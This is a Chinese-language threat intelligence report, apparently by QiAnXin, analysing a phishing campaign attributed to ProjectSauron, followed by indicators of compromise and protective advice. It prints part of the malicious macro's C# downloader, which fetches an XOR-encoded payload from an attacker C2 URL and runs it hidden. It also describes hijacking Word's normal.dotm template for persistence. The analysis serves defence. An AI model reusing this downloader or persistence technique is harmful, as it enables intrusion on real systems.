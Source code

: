 # 疑似美方组织针对中国的攻击活动  

## 一、事件概述  

近期，奇安信威胁情报中心发现了一封针对国内单位的钓鱼邮件，经过进一步调查，背后的攻击黑手疑似具有美国背景的 ProjectSauron。  

ProjectSauron 由赛门铁克在 2016 年8月中的报告命名，该组织一直针对俄罗斯，中国，瑞典和比利时。使用Remsec 的恶意软件进行攻击，并使用了lua语言编写的模块。至少从 2011年10月开始活跃。  

## 二、详细分析  

钓鱼邮件如下:  

![](https://cdn-mineru.openxlab.org.cn/extract/05c74d53-604e-49f7-b818-94a9de566886/1ce5888c8d72ab38cb554b3045df1926260163d195cd98db0c2b9b58f509c49a.jpg)  

该文档的宏功能为编译和运行一段C#代码，如下：  

![](https://cdn-mineru.openxlab.org.cn/extract/05c74d53-604e-49f7-b818-94a9de566886/db6161005a7678e7ddf841f68b838baafe89789563f7341d66a885df312c79ec.jpg)  

这段C#代码的作用为请求C2：  

http://againshopping.getenjoyment.net/do.php页面的数据，解密后存放在 C:Users\Public\Libraries\tmp.dotm，其解密方式为将数据与HTT三个字符循环异或  

![](https://cdn-mineru.openxlab.org.cn/extract/05c74d53-604e-49f7-b818-94a9de566886/27e4ded1d9d68f974fe1cda7f3fd3d3c350bea6d88fe0669884c5b364ec47591.jpg)  

之后会通过CMD命令将tmp.dotm移动到，%appdata%\microsoftemplates\normal.dotm，此位置为Word 文档的默认模板文件，此操作的实际作用为将Wrod默认模板替换为请求到的恶意模板文件，以后用户创建Word后会默认使用恶意的模板  

替换后的模板是一个默认启动宏的模板，该模板的宏代码与之前类似，同样是编译并允许一段C#代码  

"requestFile(""http://againshopping.getenjoyment.net/ag.php ",strFolder);" + vbCrLf +   
"FileInfo first_fileInfo = new FileInfo(strFolder) ;" + vbcrLf +   
"if (first_fileInfo.Length<1)" + vbCrLf +   
"{" + vbcrlf +   
"first_fileInfo.Delete();" + vbCrLf + _   
"return;" + vbCrLf +   
"}" + vbCrLf +   
"System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo(strFolder);" + vbc   
"startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;" + vbCrLf +   
"System.Diagnostics.Process.Start(startInfo);" + vbCrLf +   
"}" + vbcrlf +   
"private byte[] encryptDecrypt(byte[] input)" + vbcrLf + {" + vbcrLf + "char[] key = { \*H', 'T', 'T' };" + vbcrlf + "byte[] output = new byte[input.Length];" + vbcrLf + "for (int i = 0; i < input.Length; i++)" + vbCrLf "{" + vbcrLf + "output[i] = (byte)(input[i] ^ key[i % key.Length]);" + vbCrLf + "}" + vbcrLf + "return output;" + vbcrLf +   
}" + vbcrLf  

此 C#代码的功能为请求 http://againshopping.getenjoyment.net/ag.php页面的数据，解密后存放在  

C:\Users\Public\Libraries\memoryClear\s_number.exe，并创建进程运行我们从拿到样本开始跑沙箱到分析完成一共用了 20分钟左右的时间，当我们想要请求 ag.php 时，服务器返回的内容为空，紧接着第一阶段的 do.php页面也被置空，攻击者以非常快的速度进行了“应急响应”，反应速度之快完全出乎了我们的预料。  

![](https://cdn-mineru.openxlab.org.cn/extract/05c74d53-604e-49f7-b818-94a9de566886/0ef6ecc13da8ff485fa12040c795d06d4a698eac752ffb8418ce84d47becda50.jpg)  

## 三、溯源分析  

ProjectSauron 组织历史恶意代码与本次攻击活动中的代码对比如下,可见代码相似度极高，后续同样通过据与key 的三个字符循环异或解密数据。  

![](https://cdn-mineru.openxlab.org.cn/extract/05c74d53-604e-49f7-b818-94a9de566886/5881c59edc8eb573f26e3b4261106d3b86ce9bc497414807ac04196e4b928ccc.jpg)  

结合该组织历史攻击手法，我们高度怀疑本次活动由 ProjectSauron组织发起。  

## 四、溯源分析结论  

其攻击模块包含使用熟练英语的标准嵌入式使用输出。从技术的复杂性来看，ProjectSauron 指挥着一个顶级的模块化网络间谍平台，旨在通过隐蔽的持久化机制和多种信息渗漏方法，支持其长期的网络间谍活动。并且擅长向其他非常高级的组织学习，以避免重复他们的错误。  

## 五、防护建议  

奇安信威胁情报中心提醒广大用户，谨防钓鱼攻击，切勿打开社交媒体分享的来历不明的链接，不点击执行未知来源的邮件附件，不运行标题夸张的未知文件，不安装非正规途径来源的APP。做到及时备份重要文件，更新安装补丁。  

若需运行，安装来历不明的应用，可先通过奇安信威胁情报文件深度分析平台（https://sandbox.ti.qianxin.com/sandbox/page）进行判别。目前已支持包括Windows、安卓平台在内的多种格式文件深度分析。目前，基于奇安信威胁情报中心的威胁情报数据的全线产品，包括奇安信威胁情报平台（TIP)、天擎、天眼高级威胁检测系统、奇安信NGSOC、奇安信态势感知等，都已经支持对此类攻击的精确检测。  

## 六、I0C  

C&C   
http[:]//againshopping.getenjoyment.net/do.php   
http[: ]/againshopping.getenjoyment.net/ag.php   
www.msgsafe-backup[.]com   
www.renew-servicemanager[.]com  

# Path:  

# C:\Users\Public\Libraries\memoryClear\s_number.exe  